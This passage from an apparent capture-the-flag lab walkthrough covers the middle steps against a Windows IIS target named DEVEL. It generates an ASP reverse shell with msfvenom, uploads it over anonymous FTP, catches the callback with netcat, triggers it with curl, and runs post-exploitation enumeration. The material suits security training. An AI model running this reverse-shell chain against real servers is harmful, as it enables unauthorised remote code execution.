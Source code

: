 ### Step 4: Generate Reverse Shell
Create an ASP reverse shell payload.

**Command/Code:**
```bash
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.2 LPORT=4444 -f asp > shell.asp
```

### Step 5: Upload Shell
Upload the reverse shell via FTP.

**Command/Code:**
```bash
ftp 10.10.10.5
put shell.asp
quit
```

**Output:**
```
ftp> put shell.asp
200 PORT command successful.
150 Opening ASCII mode data connection for file list.
226 Transfer complete.
ftp: 25 bytes sent in 0.00 secs (25.00 Kbytes/sec)
```

### Step 6: Setup Listener
Start a netcat listener to catch the reverse shell.

**Command/Code:**
```bash
nc -lvp 4444
```

### Step 7: Execute Shell
Access the uploaded shell via web browser.

**Command/Code:**
```bash
curl http://10.10.10.5/shell.asp
```

### Step 8: Post-Exploitation
Once we have a shell, gather information and find flags.

**Command/Code:**
```bash
whoami
systeminfo
```

**Output:**
```
nt authority\iusr
Host Name:                 DEVEL
OS Name:                   Microsoft Windows 7 Enterprise 
OS Version:                6.1.7600 N/A Build 7600
```
